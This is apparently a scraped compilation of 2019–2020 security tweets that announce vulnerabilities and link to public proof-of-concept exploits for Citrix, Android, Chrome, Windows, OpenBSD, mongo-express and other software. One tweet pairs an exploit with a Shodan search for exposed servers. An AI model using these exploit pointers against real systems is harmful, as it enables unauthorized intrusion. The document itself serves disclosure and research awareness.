**https://twitter.com/mpgn_x64/status/1215650357310820353 _at Fri Jan 10 15:03:25 +0000 2020_**
<blockquote>
CVE-2019-19781 in three steps :

1⃣ No account needed
2⃣ Unrestricted File Upload
3⃣ Template Injection through Template Toolkit 

Result into a Remote Code Execution without authentication ❗️

🛂 Follow Citrix Mitigation to avoid exploitation https://t.co/tYge6LymSl
</blockquote>

* https://support.citrix.com/article/CTX267679

<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>55</code></td>
<td>Favorites: <code>89</code></td>
</tr></table>

---
# mobilesecurity_
**https://twitter.com/mobilesecurity_/status/1215362064543375360 _at Thu Jan 09 19:57:51 +0000 2020_**
<blockquote>
Remote iPhone Exploitation 📱🔥
Part 1: Poking Memory via iMessage and CVE-2019-8641
https://t.co/GP6p9EHiZ1
Part 2: a Remote ASLR Bypass
https://t.co/VvJHLgqIIc
Part 3: Gaining Code Execution
https://t.co/WejOZvI6rP
#MobileSecurity #iOSsecurity by @5aelo and @ProjectZeroBugs https://t.co/VxdXHuDxb1
</blockquote>

* https://googleprojectzero.blogspot.com/2020/01/remote-iphone-exploitation-part-1.html
* https://googleprojectzero.blogspot.com/2020/01/remote-iphone-exploitation-part-2.html
* https://googleprojectzero.blogspot.com/2020/01/remote-iphone-exploitation-part-3.html

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>200</code></td>
<td>Favorites: <code>389</code></td>
</tr></table>

---
# bluefrostsec
**https://twitter.com/bluefrostsec/status/1214571356785917953 _at Tue Jan 07 15:35:51 +0000 2020_**
<blockquote>
Full analysis and exploit for Windows kernel ws2ifsl use-after-free (CVE-2019-1215) by our researcher @flxflndy https://t.co/w2IvTGNSPd
</blockquote>

* https://labs.bluefrostsecurity.de/blog/2020/01/07/cve-2019-1215-analysis-of-a-use-after-free-in-ws2ifsl/

<table><tr>
<td>Quotes: <code>9</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>189</code></td>
<td>Favorites: <code>326</code></td>
</tr></table>

---
# 0vercl0k
**https://twitter.com/0vercl0k/status/1213157383884570624 _at Fri Jan 03 17:57:14 +0000 2020_**
<blockquote>
Here is an exploit for LPE CVE-2019-1184 in case anybody else is interested in this cool bug: https://t.co/PmAFAj1HV0 https://t.co/Osr4Rk2V8z
</blockquote>

* https://github.com/0vercl0k/stuffz/blob/master/CVE-2019-1184/CVE-2019-1184.cc

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>5</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>230</code></td>
<td>Favorites: <code>446</code></td>
</tr></table>

---
# chybeta
**https://twitter.com/chybeta/status/1212730812325449728 _at Thu Jan 02 13:42:11 +0000 2020_**
<blockquote>
CVE-2019-10758 post-auth Remote Code Execution in mongo-express &lt; 0.54.0 via endpoints that uses the `toBSON` method

however there are lots of no-auth mongo-express ...

shodan: https://t.co/9J4qhXL1Im

poc: https://t.co/mtChbxVDrw https://t.co/zp7EK2cmu3
</blockquote>

* https://www.shodan.io/search?query=Mongo+Express
* https://github.com/masahiro331/CVE-2019-10758

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>4</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>190</code></td>
<td>Favorites: <code>373</code></td>
</tr></table>

---
# wjllz1
**https://twitter.com/wjllz1/status/1212693029234106379 _at Thu Jan 02 11:12:03 +0000 2020_**
<blockquote>
Public the exploit code for cve-2019-8038 and cve-2019-8039. Two UAF bug in Adobe reader DC. It could pop a calc after disable ASLR.  More details will be described after my final exam....  https://t.co/vyrxOhEEt8
</blockquote>

* https://github.com/redogwu/pdf/tree/master/adobe

<table><tr>
<td>Quotes: <code>4</code></td>
<td>Replies: <code>4</code></td>
<td>Retweets: <code>153</code></td>
<td>Favorites: <code>295</code></td>
</tr></table>

---
# ddouhine
**https://twitter.com/ddouhine/status/1210588750008463360 _at Fri Dec 27 15:50:24 +0000 2019_**
<blockquote>
Blue teamers you can target #metasploit with this exploit... #metasploit dropped yesterday ;)
No RCE but a DoS: red teamers will lost their sessions, don't get new ones and will have to restart MSF.
CVE-2019-5645
https://t.co/zH8D4GCTYU https://t.co/zmG1jmYsaF
</blockquote>

* https://github.com/rapid7/metasploit-framework/pull/12433

<table><tr>
<td></td>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>30</code></td>
<td>Replies: <code>15</code></td>
<td>Retweets: <code>269</code></td>
<td>Favorites: <code>650</code></td>
</tr></table>

---
# Nettitude_Labs
**https://twitter.com/Nettitude_Labs/status/1205155380751486976 _at Thu Dec 12 16:00:08 +0000 2019_**
<blockquote>
Learn how to exploit Symantec Endpoint Protection on all versions of Windows (CVE-2019-12750). Part 2 of this series by @kyREcon delves into a more advanced method of exploitation! https://t.co/1LBcHOkQT7
</blockquote>

* https://labs.nettitude.com/blog/cve-2019-12750-symantec-endpoint-protection-local-privilege-escalation-part-2/

<table><tr>
<td>Quotes: <code>5</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>144</code></td>
<td>Favorites: <code>262</code></td>
</tr></table>

---
# TheHackersNews
**https://twitter.com/TheHackersNews/status/1205021980241453056 _at Thu Dec 12 07:10:02 +0000 2019_**
<blockquote>
👏 Patched in less than 3 hours...
 
A new local privilege escalation vulnerability (CVE-2019-19726) discovered in #OpenBSD 6.5/6.6 that could allow local users or malicious software to gain full root privileges on targeted systems.

Details and PoC: https://t.co/Lc1NTtTG3G
</blockquote>

* https://www.qualys.com/2019/12/11/cve-2019-19726/local-privilege-escalation-openbsd-dynamic-loader.txt

<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>69</code></td>
<td>Favorites: <code>109</code></td>
</tr></table>

---
# OPOSEC
**https://twitter.com/OPOSEC/status/1204672174830825473 _at Wed Dec 11 08:00:02 +0000 2019_**
<blockquote>
PreAuth RCE on Palo Alto GlobalProtect Part II (CVE-2019-1579). https://t.co/W2ILBPYz5Y (+) PoC: https://t.co/c7NoOYuCYi #Security #293 (2019)
</blockquote>

* http://bit.ly/2lXfyJy
* https://github.com/securifera/CVE-2019-1579

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>26</code></td>
<td>Favorites: <code>32</code></td>
</tr></table>

---
# TheHackersNews
**https://twitter.com/TheHackersNews/status/1204649907388203008 _at Wed Dec 11 06:31:33 +0000 2019_**
<blockquote>
Used in #OperationWizardOpium cyberattack, the newly patched Windows 0-day privilege escalation vulnerability (CVE-2019-1458) was exploited in combination with a Chrome browser flaw to take remote control over vulnerable computers, as spotted by Kaspersky researchers. https://t.co/PzJHLIpwUB
</blockquote>

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>87</code></td>
<td>Favorites: <code>110</code></td>
</tr></table>

---
# blackorbird
**https://twitter.com/blackorbird/status/1204585220529258496 _at Wed Dec 11 02:14:31 +0000 2019_**
<blockquote>
#APT #Darkhotel #0day #WizardOpium
Chrome RCE to windows Privilege Escalation

First
Chrome 0-day exploit CVE-2019-13720 used in Operation WizardOpium
https://t.co/WmUj2BkieG
Then
Windows 0-day exploit CVE-2019-1458 used in Operation WizardOpium(Windows 7)
https://t.co/Gqkmmn9Ujc https://t.co/VUwL14hPNf
</blockquote>

* https://securelist.com/chrome-0-day-exploit-cve-2019-13720-used-in-operation-wizardopium/94866/
* https://securelist.com/windows-0-day-exploit-cve-2019-1458-used-in-operation-wizardopium/95432/

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>4</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>111</code></td>
<td>Favorites: <code>168</code></td>
</tr></table>

---
# 0vercl0k
**https://twitter.com/0vercl0k/status/1202955509738934272 _at Fri Dec 06 14:18:38 +0000 2019_**
<blockquote>
Here is an exploit chain I wrote for Firefox that gets RCE via CVE-2019-9810 and escape the sandbox with CVE-2019-11708/CVE-2019-9810. Once compromised, it drops a payload and injects privileged JS code in already/newly created tabs. https://t.co/ZmUxjBBhpC https://t.co/LeAOCgqpMG
</blockquote>

* https://github.com/0vercl0k/CVE-2019-11708

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>8</code></td>
<td>Replies: <code>8</code></td>
<td>Retweets: <code>482</code></td>
<td>Favorites: <code>1032</code></td>
</tr></table>

---
# TheHackersNews
**https://twitter.com/TheHackersNews/status/1202553842870571008 _at Thu Dec 05 11:42:33 +0000 2019_**
<blockquote>
New 👇

A critical remote Authentication Bypass (smtpd, ldapd, and radiusd) and 3 other Local Privilege Escalation flaws disclosed in #OpenBSD operating system.

Details and PoC — https://t.co/ZowHZY6O1e
 
➡️ CVE-2019-19521
➡️ CVE-2019-19520
➡️ CVE-2019-19522
➡️ CVE-2019-19519 https://t.co/S2y3fvRqbP
</blockquote>

* https://thehackernews.com/2019/12/openbsd-authentication-vulnerability.html

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>4</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>192</code></td>
<td>Favorites: <code>198</code></td>
</tr></table>

---
# wugeej
**https://twitter.com/wugeej/status/1201329902764511232 _at Mon Dec 02 02:39:03 +0000 2019_**
<blockquote>
[PoC List] Zero-Day Usage By Country

#Fireeye

1. CVE-2012-4681
https://t.co/q8RzawOJXg

2. CVE-2012-4792
https://t.co/IdAkgMf45l

3. CVE-2013-0422
https://t.co/Nbn034eY0K
https://t.co/0F4LnSBCO5

4. CVE-2013-3893
https://t.co/DTp47A5O59

5. CVE-2013-3918
https://t.co/F9nketGNVJ https://t.co/Ijk48e7vzT
</blockquote>

* https://www.exploit-db.com/exploits/20865
* https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/windows/browser/ie_cbutton_uaf.rb
* https://github.com/rapid7/metasploit-framework/tree/master/external/source/exploits/cve-2013-0422
* https://www.exploit-db.com/exploits/24045
* https://msrc-blog.microsoft.com/2013/09/17/cve-2013-3893-fix-it-workaround-available/
* https://www.exploit-db.com/exploits/29857

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>5</code></td>
<td>Retweets: <code>176</code></td>
<td>Favorites: <code>313</code></td>
</tr></table>

---
# mobilesecurity_
**https://twitter.com/mobilesecurity_/status/1195688967913562112 _at Sat Nov 16 13:03:59 +0000 2019_**
<blockquote>
New critical security issue for WhatsApp ⚠️🚨 - a maliciously crafted MP4 file could lead to DoS or RCE. Both Android and iOS versions are affected
#MobileSecurity  (CVE-2019-11931)
https://t.co/OrEcZYguQW
</blockquote>

* https://m.facebook.com/security/advisories/cve-2019-11931

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>64</code></td>
<td>Favorites: <code>94</code></td>
</tr></table>

---
# andersonc0d3
**https://twitter.com/andersonc0d3/status/1195153699070451712 _at Fri Nov 15 01:37:01 +0000 2019_**
<blockquote>
CVE-2019-11931

A stack-based buffer overflow could be triggered in WhatsApp by sending a specially crafted MP4 file to a WhatsApp user. The issue was present in parsing the elementary stream metadata of an MP4 file and could result in a DoS or RCE. https://t.co/c6XscizBPH
</blockquote>

* https://m.facebook.com/security/advisories/cve-2019-11931

<table><tr>
<td>Quotes: <code>8</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>84</code></td>
<td>Favorites: <code>160</code></td>
</tr></table>

---
# r3c0nst
**https://twitter.com/r3c0nst/status/1195010476486381569 _at Thu Nov 14 16:07:54 +0000 2019_**
<blockquote>
Windows privilege escalation exploit for CVE-2019-1322 + CVE-2019-1405 With Sourcecode, binary and howto Video. Tested and works! Expect this to be used in future malware. #Hacking #DFIR
</blockquote>

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>71</code></td>
<td>Favorites: <code>133</code></td>
</tr></table>

---
# SpecialHoang
**https://twitter.com/SpecialHoang/status/1194958728065376258 _at Thu Nov 14 12:42:16 +0000 2019_**
<blockquote>
Thanks to @NCCGroupInfosec  for releasing their write up on CVE-2019-1405 and CVE-2019-1322. I  figured it is time for me to learn some COM stuff so I whip up a PoC.
Source: https://t.co/Ucpa7SykiS . 
Video: https://t.co/h45WJKhMMO 
Thanks to @leoloobeek and @TomahawkApt69
</blockquote>

* https://github.com/apt69/COMahawk
* https://vimeo.com/373051209

<table><tr>
<td>Quotes: <code>4</code></td>
<td>Replies: <code>6</code></td>
<td>Retweets: <code>153</code></td>
<td>Favorites: <code>276</code></td>
</tr></table>

---
# hosselot
**https://twitter.com/hosselot/status/1194363315344084992 _at Tue Nov 12 21:16:19 +0000 2019_**
<blockquote>
So tonight Microsoft fixed 3 vulnerabilities I reported in Windows Font processing affecting Kernel in Windows before 10:
CVE-2019-1419: RCE in Windows 10 and below.
CVE-2019-1456: RCE in Windows 10 and below.
CVE-2019-1412: Windows Kernel information disclosure.
</blockquote>

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>12</code></td>
<td>Favorites: <code>80</code></td>
</tr></table>

---
# _markel___
**https://twitter.com/_markel___/status/1194351078202101761 _at Tue Nov 12 20:27:41 +0000 2019_**
<blockquote>
Intel discloses remote 'privileges escalation' vulnerability in CSME for non-vPro systems (not having AMT module). That's a precedent breaking well recognized assumptions about remote attacks on CSME (CVE-2019-0169): https://t.co/ADPHCzUpcZ
</blockquote>

* https://www.intel.com/content/www/us/en/security-center/advisory/intel-sa-00241.html

<table><tr>
<td>Quotes: <code>6</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>72</code></td>
<td>Favorites: <code>117</code></td>
</tr></table>

---
# k_sec
**https://twitter.com/k_sec/status/1190306767588036608 _at Fri Nov 01 16:37:02 +0000 2019_**
<blockquote>
cve-2019-13720 chrome 0day exploit and payload details https://t.co/EMhym0Qf09
</blockquote>

* https://securelist.com/chrome-0-day-exploit-cve-2019-13720-used-in-operation-wizardopium/94866/

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>63</code></td>
<td>Favorites: <code>77</code></td>
</tr></table>

---
# campuscodi
**https://twitter.com/campuscodi/status/1190183847859834881 _at Fri Nov 01 08:28:36 +0000 2019_**
<blockquote>
On late Halloween evening, Google discloses Chrome zero-day exploited in the wild

&gt; CVE-2019-13720
&gt; Use-after-free in Chrome's audio component
&gt; Update to Chrome 78.0.3904.87
&gt; No details about attacks (cybercrime/APT-related)
&gt; Discovered by Kaspersky

https://t.co/6imlN8TA17 https://t.co/MhKSrs77m4
</blockquote>

* https://www.zdnet.com/article/halloween-scare-google-discloses-chrome-zero-day-exploited-in-the-wild/

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>50</code></td>
<td>Favorites: <code>77</code></td>
</tr></table>

---
# scarybeasts
**https://twitter.com/scarybeasts/status/1190158374987427840 _at Fri Nov 01 06:47:23 +0000 2019_**
<blockquote>
Your other Halloween scare, looks like a Chrome 0-day: "CVE-2019-13720: Use-after-free in audio. Reported by Anton Ivanov and Alexey Kulaev at Kaspersky Labs on 2019-10-29

Google is aware of reports that an exploit for CVE-2019-13720 exists in the wild."
</blockquote>

<table><tr>
<td>Quotes: <code>7</code></td>
<td>Replies: <code>4</code></td>
<td>Retweets: <code>86</code></td>
<td>Favorites: <code>255</code></td>
</tr></table>

---
# Dinosn
**https://twitter.com/Dinosn/status/1185132930148061185 _at Fri Oct 18 09:58:03 +0000 2019_**
<blockquote>
Researcher released PoC exploit code for CVE-2019-2215 Android zero-day flaw https://t.co/JXTe1kmaxd
</blockquote>

* https://securityaffairs.co/wordpress/92633/hacking/cve-2019-2215-zero-day-exploit.html

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>42</code></td>
<td>Favorites: <code>93</code></td>
</tr></table>

---
# TheHackersNews
**https://twitter.com/TheHackersNews/status/1184834125821145095 _at Thu Oct 17 14:10:43 +0000 2019_**
<blockquote>
qu1ckr00t (CVE-2019-2215)

Researcher releases proof-of-concept for a recent #Android kernel arbitrary read/write zero-day vulnerability that was being actively exploited in the wild.

https://t.co/yBf9n7fXzO

Demo: https://t.co/Ih2biu7Dbf
</blockquote>

* https://github.com/grant-h/qu1ckr00t
* https://twitter.com/Digital_Cold/status/1182045384505466885

<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>79</code></td>
<td>Favorites: <code>120</code></td>
</tr></table>

---
# HeinrichsH
**https://twitter.com/HeinrichsH/status/1184358671733743616 _at Wed Oct 16 06:41:26 +0000 2019_**
<blockquote>
A few hours ago, two bugs in Palo Alto Networks GlobalProtect Agent allowing LPE on Win/Linux/macOS were fixed (CVE-2019-17435, CVE-2019-17436). Curious? Grab one of the last @t2_fi tickets 🎫 and learn more 😊🤙🏻 #t2infosec
</blockquote>

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>21</code></td>
<td>Favorites: <code>33</code></td>
</tr></table>

---
# Digital_Cold
**https://twitter.com/Digital_Cold/status/1182045384505466885 _at Wed Oct 09 21:29:15 +0000 2019_**
<blockquote>
Rooting a Pixel 2 with Magisk from an untrusted app using CVE-2019-2215, no OEM unlock needed https://t.co/yGovBluQj5
</blockquote>

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>25</code></td>
<td>Replies: <code>31</code></td>
<td>Retweets: <code>262</code></td>
<td>Favorites: <code>926</code></td>
</tr></table>

---
# campuscodi
**https://twitter.com/campuscodi/status/1181431525356654593 _at Tue Oct 08 04:50:00 +0000 2019_**
<blockquote>
Zero-day published for old Joomla CMS versions

-PoC available
-trivial to exploit
-impacts 3.x to 3.4.6
-PHP object injection leading to RCE
-no CVE yet
-similar to CVE-2015-8562, but not PHP environment-tethered

https://t.co/0TDyNcocUP https://t.co/Xsx3euViez
</blockquote>

* https://www.zdnet.com/article/zero-day-published-for-old-joomla-cms-versions/

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>74</code></td>
<td>Favorites: <code>110</code></td>
</tr></table>

---
# wugeej
**https://twitter.com/wugeej/status/1180993519327924225 _at Sun Oct 06 23:49:31 +0000 2019_**
<blockquote>
[CVE-2019-2215] critical unpatched zero-day vulnerability affecting the Android mobile operating system.

Escalate privileges to gain root access to a vulnerable device. 

[poc.c] https://t.co/rFquk1LWpO

[uaf_test.c] https://t.co/JGmCVuj1WX

https://t.co/R3o8hNkGGf https://t.co/t0pU2cYJoQ
</blockquote>

* https://00e9e64bac2d53fe420f7c6b0702b847a830a4e8470c46969c-apidata.googleusercontent.com/download/storage/v1/b/monorail-prod.appspot.com/o/26%2Fattachments%2Fc700ee47-ea4d-4825-a67e-ef785f011ccc?qk=AD5uMEtxm7d4E18RhqRQraMLOl6oh_gmsMI2O5PvXo5mHk4VNxAb77erVac8c3KSyRtugVEZuT8gvTJvWnVrAwU14gJ_fcnexxSUBUiVLMVmDNW_MnlnB4U_dZxElWsclib1R5YCLvQtdcssIIv6AKVi4RxNrSZ6cbdcJel7i9UxgyBRzgRgf_exdo9n8_iSR_njMMtajKo6pN7oe3O6KtWyXM3jqNc9XlPMjNNb94nosp6SURCOaY8HkT7cmsJ8PdIPZImQXKJ-WsX-UYVwrPxaViVZTjQN7UEFO7fL-n1ly7klkgPL6ilVpB5zTK1xOwwmQxhqZLuHPYeEbk4ldtC6ouY90R0qAlSnxBumFAk1v6kX5GopBtlXoRKwjDscsDk7kK3Q0W_qps3glU-8qfDytU8ZHBXfm6lBkCVwJZGlY23WjH5zA7C_EWCWF8ZQEJNskGn87_CdjhWitnEeKwiPAItijSmfHXPdHbCYjjYG4n58cJ5pOFxfBPIDQ8-S2d0KGgJ6fJoHeuRYl0Ut6rqNMsSKehIe1jeEl0TZUJC_BjqPUFnNwzRvz-TazvQV21KEBqO-rJ4LORuTMHPBJ62GrsNdXd2HJabaapbDnCrcI1fwXWFR-4EUssiM-Qxz-u6ioakyPeJ1HpojKlHB_5snPrWz1YlZG9nOiQ6Ecom4pgD0sClXn57PDeJWfU8A25cIrXIul3161Ui_nu1Z_cd3Qwv6f9zs5z13DJ7hNi6DqvI6ws9sqNKLusHtMORD26DHsAUOGyBtg1p76Kn-1madffBb_CY_hKEvjKjLHGkrng_OyKCx_kx1it2ce83mYuEB4R1SifoHu-lo1u8-0Wfo1LCku6xzzEYctQo1jzDZ2Mc_Et583tY
* https://bugs.chromium.org/p/project-zero/issues/attachmentText?aid=414030
* https://bugs.chromium.org/p/project-zero/issues/detail?id=1942

<table><tr>
<td></td>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>33</code></td>
<td>Favorites: <code>75</code></td>
</tr></table>

---
# GreyNoiseIO
**https://twitter.com/GreyNoiseIO/status/1176898873622781954 _at Wed Sep 25 16:38:51 +0000 2019_**
<blockquote>
GreyNoise is observing opportunistic exploitation of the recent vBulletin 5.x remote code execution vulnerability (CVE-2019-16759), starting three hours ago from several hundred devices around the Internet. Tags available now. 

tags:"vBulletin 5.x RCE"

https://t.co/tBMaCdimRI https://t.co/3JLNNxA0qG
</blockquote>

* https://viz.greynoise.io/query/?gnql=tags%3A%22vBulletin%205.x%20RCE%22

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>51</code></td>
<td>Favorites: <code>90</code></td>
</tr></table>

---
# TheHackersNews
**https://twitter.com/TheHackersNews/status/1176403685879902210 _at Tue Sep 24 07:51:09 +0000 2019_**
<blockquote>
It's not a Patch Tuesday, but #Microsoft is rolling out emergency out-of-band security patches for two new vulnerabilities:

➡️ CVE-2019-1367 — a critical IE zero-day under active attack.
➡️ CVE-2019-1255 — DoS flaw in Microsoft Defender.

Read details: https://t.co/oLonGzrR1O https://t.co/uxthA4IOaM
</blockquote>

* https://thehackernews.com/2019/09/windows-update-zero-day.html

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>10</code></td>
<td>Replies: <code>4</code></td>
<td>Retweets: <code>224</code></td>
<td>Favorites: <code>217</code></td>
</tr></table>

---
# msftsecresponse
**https://twitter.com/msftsecresponse/status/1176181336131784705 _at Mon Sep 23 17:07:37 +0000 2019_**
<blockquote>
Out of band security vulnerability fixes CVE-2019-1367 and CVE-2019-1255 have been released today. For more information please see https://t.co/QMUM53m8so and https://t.co/vy3d0wXWng .
</blockquote>

* https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2019-1367
* https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2019-1255

<table><tr>
<td>Quotes: <code>24</code></td>
<td>Replies: <code>12</code></td>
<td>Retweets: <code>134</code></td>
<td>Favorites: <code>131</code></td>
</tr></table>

---
# Dinosn
**https://twitter.com/Dinosn/status/1176013649774874624 _at Mon Sep 23 06:01:18 +0000 2019_**
<blockquote>
CVE-2019-1082 Windows Local Privileges Escalation. Little Writeup How i found lpe vulnerability. https://t.co/Gtd82bRqKR
</blockquote>

* https://www.reddit.com/r/netsec/comments/d80o63/cve20191082_windows_local_privileges_escalation/

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>130</code></td>
<td>Favorites: <code>274</code></td>
</tr></table>

---
# TheHackersNews
**https://twitter.com/TheHackersNews/status/1174252554651426823 _at Wed Sep 18 09:23:20 +0000 2019_**
<blockquote>
Warning — Researcher drops PoC for a new #phpMyAdmin zero-day flaw (CVE-2019-12922) publicly that affects all versions of the popular, widely-used database management #software.

Details: https://t.co/XGJpDCbuW0

#infosec #webdev

—via @security_wang https://t.co/GWmQceJUrI
</blockquote>

* https://thehackernews.com/2019/09/phpmyadmin-csrf-exploit.html

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>19</code></td>
<td>Replies: <code>4</code></td>
<td>Retweets: <code>233</code></td>
<td>Favorites: <code>233</code></td>
</tr></table>

---
# Dinosn
**https://twitter.com/Dinosn/status/1172224144068546560 _at Thu Sep 12 19:03:09 +0000 2019_**
<blockquote>
From BinDiff to Zero-Day: A Proof of Concept Exploiting CVE-2019-1208 in Internet Explorer https://t.co/45VjymtB0H
</blockquote>

* https://blog.trendmicro.com/trendlabs-security-intelligence/from-bindiff-to-zero-day-a-proof-of-concept-exploiting-cve-2019-1208-in-internet-explorer/

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>59</code></td>
<td>Favorites: <code>148</code></td>
</tr></table>

---
# axcheron
**https://twitter.com/axcheron/status/1172221599866589185 _at Thu Sep 12 18:53:02 +0000 2019_**
<blockquote>
From BinDiff to Zero-Day: A Proof of Concept Exploiting CVE-2019-1208 in Internet Explorer https://t.co/nOBAOE7mrx #UAF #IE #exploit
</blockquote>

* https://blog.trendmicro.com/trendlabs-security-intelligence/from-bindiff-to-zero-day-a-proof-of-concept-exploiting-cve-2019-1208-in-internet-explorer/

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>25</code></td>
<td>Favorites: <code>58</code></td>
</tr></table>

---
# rogue_kdc
**https://twitter.com/rogue_kdc/status/1171706305368723457 _at Wed Sep 11 08:45:27 +0000 2019_**
<blockquote>
@_RastaMouse and I found a privilege escalation/DoS bug in Windows AppX Deployment Server (CVE-2019-1253)
Both of us found it independently while researching CVE-2019-0841
Use it responsibly!
https://t.co/Ts899ikpDi
</blockquote>

* https://github.com/rogue-kdc/CVE-2019-1253

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>57</code></td>
<td>Favorites: <code>86</code></td>
</tr></table>

---
# kmkz_security
**https://twitter.com/kmkz_security/status/1169547426249826305 _at Thu Sep 05 09:46:50 +0000 2019_**
<blockquote>
3 vulns #exploit chain used in #PenTest 45 days ago -&gt; #ACL bypass+SQLi+RCE via file upload :S CVE-2019-14252/14253/14254 - No magic 0days here: https://t.co/NajroEqOSU #Pentesting #CVE #disclosure cc @Publisure @jeefers
</blockquote>

* https://github.com/kmkz/exploit/blob/master/PUBLISURE-EXPLOIT-CHAIN-ADVISORY.txt

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>48</code></td>
<td>Favorites: <code>117</code></td>
</tr></table>

---
# ZecOps
**https://twitter.com/ZecOps/status/1167517173918486528 _at Fri Aug 30 19:19:20 +0000 2019_**
<blockquote>
We previously analyzed the (at the time) 0day used in the attacks Google Threat Analysis group revealed today. You can read the technical analysis of CVE-2019-7286 here https://t.co/qxB0epH7Uq and https://t.co/2WvxQcAlD1
</blockquote>

* https://blog.zecops.com/vulnerabilities/analysis-and-reproduction-of-cve-2019-7286/
* https://blog.zecops.com/vulnerabilities/exploit-of-cve-2019-7286/

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>30</code></td>
<td>Favorites: <code>57</code></td>
</tr></table>

---
# bad_packets
**https://twitter.com/bad_packets/status/1166851346143707142 _at Wed Aug 28 23:13:34 +0000 2019_**
<blockquote>
Further exploitation of CVE-2019-11510 can lead to remote code execution (RCE) on the clients connecting to a compromised Pulse Secure VPN server.

This technique could be used to spread ransomware and any other type of malware on sensitive networks.
https://t.co/lXcedIyQSB
</blockquote>

* https://badpackets.net/over-14500-pulse-secure-vpn-endpoints-vulnerable-to-cve-2019-11510/

<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>26</code></td>
<td>Favorites: <code>39</code></td>
</tr></table>

---
# _CPResearch_
